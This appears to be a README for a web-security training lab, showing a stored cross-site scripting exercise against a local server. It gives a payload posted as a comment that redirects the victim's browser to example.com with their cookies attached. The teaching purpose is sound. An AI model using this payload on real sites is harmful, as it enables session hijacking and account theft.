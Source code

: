 # SecuringWebApplications
## 1. storedXssAttack1
a. Post a comment to the the url 

      URL:'http://localhost:8080/storedXssAttack1/Comment'

      Method : POST

      Request Body

          comment : <script>window.location='http://example.com/?cookie='+document.cookie</script>


b. Get the comment from the url
http://localhost:8080/storedXssAttack1/Comment
